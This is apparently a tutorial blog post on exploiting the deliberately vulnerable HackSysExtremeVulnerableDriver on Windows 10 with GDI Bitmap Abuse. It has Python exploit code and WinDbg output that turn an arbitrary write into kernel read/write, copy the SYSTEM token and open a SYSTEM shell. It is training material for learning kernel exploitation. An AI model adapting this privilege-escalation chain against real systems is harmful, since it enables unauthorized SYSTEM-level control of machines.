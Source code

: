 ```yaml
---
layout:		post
title:		HackSysExtremeVulnerableDriver GDI Bitmap Abuse
author:		wooy0ung
tags:		hevd
category:	exploit
---
```


- 目录
{:toc #markdown-toc}

>[Analysis Environment]  
>guest machine: Windows 10 1511 Feb 2016  
>host machine: Windows 10  
>necessary tools: VirtualKD[[here]](http://virtualkd.sysprogs.org/)、OSRloader[[here]](https://www.osronline.com/article.cfm?article=157)、HackSysExtremeVulnerableDriver[[here]](https://github.com/hacksysteam/HackSysExtremeVulnerableDriver)、Windbg  
<!-- more -->


## 0x001 Test POC

Make sure our arbitrary write still works as expected on Win 10.
```
import sys
from ctypes import *

kernel32 = windll.kernel32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
buf = "A"*8 + "B"*8
buflen = len(buf)

kernel32.DeviceIoControl(hevDevice,0x22200B,buf,buflen,None,0,byref(c_ulong()),None)
```

Well, I got the feedback, it work fine!
```
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
[+] UserWriteWhatWhere: 0x0000000002090E18
[+] WRITE_WHAT_WHERE Size: 0x10
[+] UserWriteWhatWhere->What: 0x4141414141414141
[+] UserWriteWhatWhere->Where: 0x4242424242424242
[+] Triggering Arbitrary Overwrite
[-] Exception Code: 0xC0000005
****** HACKSYS_EVD_IOCTL_ARBITRARY_OVERWRITE ******
```


## 0x002 How to Exploit it?

Take it easy~ 

Now, I will create a Bitmap objects, and try to find where it is.
```
HBITMAP CreateBitmap（
 _In_ int nWidth，
 _In_ int nHeight，
 _In_ UINT cPlanes，
 _In_ UINT cBitsPerPel，
 _In_ const VOID * lpvBits
);
```

Execute this script, the process will be hung up.
```
import sys,time
from ctypes import *

kernel32 = windll.kernel32
gdi32 = windll.gdi32
hevDevice = kernel32.CreateFileA("\\\\.\\HackSysExtremeVulnerableDriver",0xc0000000,0,None,0x3,0,None)

if not hevDevice or hevDevice == -1:
	print "[-] Couldn't get Device Driver handle."
	sys.exit(0)
	
bmp = gdi32.CreateBitmap(0x64,0x64,1,32)
print "[+] Bitmap objects Addr: {0}".format(hex(bmp))

kernel32.DebugBreak()
kernel32.DebugBreak()

while True:
  time.sleep(60*60*24)
```

The handle is printed.
```
C:\Users\wooy0ung>python C:\Users\wooy0ung\Desktop\poc.py
[+] Bitmap objects Addr: 0x20050b46
```

Try to find out the "GdiSharedHandleTable" step by step.
```
kd> !process 0 0 python.exe
PROCESS ffffe00058481840
    SessionId: 1  Cid: 0584    Peb: 002ad000  ParentCid: 02f8
    DirBase: 42277000  ObjectTable: ffffc000e4cf6ac0  HandleCount: <Data Not Accessible>
    Image: python.exe

kd> .process ffffe00058481840
Implicit process is now ffffe000`58481840
WARNING: .cache forcedecodeuser is not enabled
kd> .context
User-mode page directory base is 42277000
kd> r $peb
$peb=00000000002ad000
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
```

GdiSharedHandleTable is a pointer array, we access the array by last two bytes of bitmap handles in order[GdiSharedHandleTable + (handle & 0xffff) * (x64:0x18,x86:0x10]
```
kd> dt nt!_PEB 00000000002ad000 GdiSharedHandleTable
   +0x0f8 GdiSharedHandleTable : 0x00000000`00b90000 Void
kd> dq 0x00000000`00b90000 + (0x6105104c & 0xffff)*0x18 L3
00000000`00ba8720  fffff901`44895000 40056105`00000584
00000000`00ba8730  00000000`00000000
```
Addr of the Bitmap which I create just now may be 0xfffff90144895000 while the PID is 1412(0x584)

We can verify the Addr by ProcessHacker.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x001.png)

When we create a Bitmap object, SURFACE OBJECT will be created, including BASEOBJECT、SURFOBJECT and pvScan0 which belongs to the SURFOBJECT pointing to the Pixel Data.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x002.png)
```
typedef struct {
 BASEOBJECT64   BaseObject;
 SURFOBJ64      SurfObj; 
 .......
} SURFACE64

typedef struct {
 ULONG64    hHmgr;
 ULONG32    ulShareCount;
 WORD       cExclusiveLock;
 WORD       BaseFlags;
 ULONG64    Tid;
} BASEOBJECT64;

typedef struct {
 ULONG64    dhsurf;
 ULONG64    hsurf;
 ULONG64    dhpdev;
 ULONG64    hdev;
 SIZEL      sizlBitmap;
 ULONG64    cjBits;
 ULONG64    pvBits;
 ULONG64    pvScan0;
 ULONG32    lDelta;
 ULONG32    iUniq;
 ULONG32    iBitmapFormat;
 USHORT     iType;
 USHORT     fjBitmap;
} SURFOBJ64
```

Declare two Bitmap objects(hManager, hWorker). Set hManager's pvScan0 to the Addr of hWorker's pvScan0. Well, we may use the ArbitratyOverwrite vulnerability.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x003.png)

But first, we should get GdiSharedHandleTable Addr
```
pbi = PROCESS_BASIC_INFORMATION()
ntdll.NtQueryInformationProcess.argtypes = (HANDLE, UINT, c_void_p, ULONG, POINTER(ULONG))
ntdll.NtQueryInformationProcess(kernel32.GetCurrentProcess(), 0, byref(pbi), sizeof(pbi), None)
peb = pbi.PebBaseAddress.contents
gdiHandleTable = peb.GdiSharedHandleTable
print "[+] GdiSharedHandleTable : {0}".format(hex(gdiHandleTable))
```

Then I will calculate pvscan0 offset of every Bitmap objects of which I created.
```
ptr = gdiHandleTable + (hManager & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hManager_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hManager_pvscan0_off : {0}".format(hex(hManager_pvscan0_off))

ptr = gdiHandleTable + (hWorker & 0xFFFF) * sizeof(GDICELL64())
gdicell64 = cast(ptr, POINTER(GDICELL64))
hWorker_pvscan0_off = gdicell64.contents.pKernelAddress + 0x50
print "[+] hWorker_pvscan0_off  : {0}".format(hex(hWorker_pvscan0_off))
```

Using our arbitrary write we want to set the pvScan0 address for the "manager" bitmap to point at the pvScan0 address of the "worker" bitmap.
```
write_where = hManager_pvscan0_off
write_what_ptr = c_void_p(hWorker_pvscan0_off)
buf = struct.pack("<Q", write_what_ptr) + struct.pack("<Q", write_where)
buf_ptr = id(buf) + 0x20
buflen = len(buf)
kernel32.DeviceIoControl(hevDevice, 0x22200B, buf_ptr, buflen, None, 0,byref(c_ulong()), None)
```

Check if this is valid.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x004.png)
Success. Now, I may read and write a specific memory with GetBitmapBits and SetBitmapBits method.

PsInitialSystemProcess is a global variable containing the EPROCESS structure address of the SYSTEM process. Therefore, we can get the EPROCESS of the SYSTEM process by looking up the address in the kernel land.
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x005.png)

And now, I should calculate the offset of some important property. There is a good news that we find out the SYSTEM EPROCESS Addr(0xffffe0008425d040 at this time). Let's set a breakpoint~
```
kd> dt _EPROCESS UniqueProcessId ActiveProcessLinks
ntdll!_EPROCESS
   +0x2e8 UniqueProcessId    : Ptr64 Void
   +0x2f0 ActiveProcessLinks : _LIST_ENTRY
kd> dt _EPROCESS ImageFileName Token
ntdll!_EPROCESS
   +0x358 Token         : _EX_FAST_REF
   +0x450 ImageFileName : [15] UChar
```

Clearly, I get the offset!
```
token_off = 0x358
unique_process_id_off = 0x2e8
active_process_links_off = 0x2f0
```

Next step, find CURRENT EPROCESS structure, then, copy system token to the current process.

finally, pop a system cmd.
```
...
system_token = c_ulonglong()
read_mem(SYSTEM_EPROCESS + token_off, byref(system_token), sizeof(system_token));
write_mem(CURRENT_EPROCESS + token_off, byref(system_token), sizeof(system_token));

Popen("start cmd", shell=True)
```

pwn~
![](/assets/img/exploit/2018-08-07-hacksys-extreme-vulnerable-driver-gdibitmapabuse/0x006.png)


## 0x003 Reference

[Part 17: Kernel Exploitation -> GDI Bitmap Abuse (Win7-10 32/64bit)](http://www.fuzzysecurity.com/tutorials/expDev/21.html)  
[Window Kernel Exploit -> GDI Bitmap Abuse](http://gflow.co.kr/window-kernel-exploit-gdi-bitmap-abuse/)  
[Techwiki:Win32k/BASEOBJECT](https://www.reactos.org/wiki/Techwiki:Win32k/BASEOBJECT)  